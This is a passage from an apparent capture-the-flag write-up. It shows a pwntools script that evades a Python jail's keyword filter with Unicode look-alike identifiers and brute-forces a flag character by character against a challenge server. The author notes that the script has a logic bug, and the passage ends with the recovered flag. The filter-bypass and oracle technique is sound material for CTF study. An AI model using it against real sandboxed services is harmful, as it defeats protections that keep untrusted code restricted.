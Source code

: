 `solve.py`: (fixed)
{{< highlight py >}}
import string
from pwn import *

context.log_level = "CRITICAL"

idx = 3 # cuz we already know flag prefix is CJ{
charset = string.printable.replace('}', '')
run = True
flag = ''

while run:
    # test if EOF (End of Flag LOL)
    payload = f'𝔣𝔩𝔞𝔤[{idx}].index("}}")'
    con = remote('159.89.193.103', 9998)
    con.sendline(payload.encode('utf-8'))
    run = b'Invalid' in con.recvall() # was not in, im dum dumb ;;
    con.close()

    # brute the index
    for c in charset:
        payload = f'𝔣𝔩𝔞𝔤[{idx}].index("{c}")'
        con = remote('159.89.193.103', 9998)
        con.sendline(payload.encode('utf-8'))
        if b'Invalid' not in con.recvall():
            flag += c
            print(f'[{idx:3d}] Got: {c}')
            # run = True # a dirty fix to that bug above that just introduces a new bug :/
            con.close()
            break
        else:
            con.close()
    idx += 1


print(f'yayyyy CJ{{{flag}}} :DDDDDDD')
{{< /highlight >}}

When I run it, it halts at `idx` 34, since the EOF test actually has a logic error (I’m bad I know). But I had the output and that’s enough to construct the flag :D  
*when yh don’t have things 2 do so you upsolve ctfs*

**Flag: `CJ{d8bf5e4e9439ffb274130cb509a87f7a}`**  
**Rating \[6/10\]**
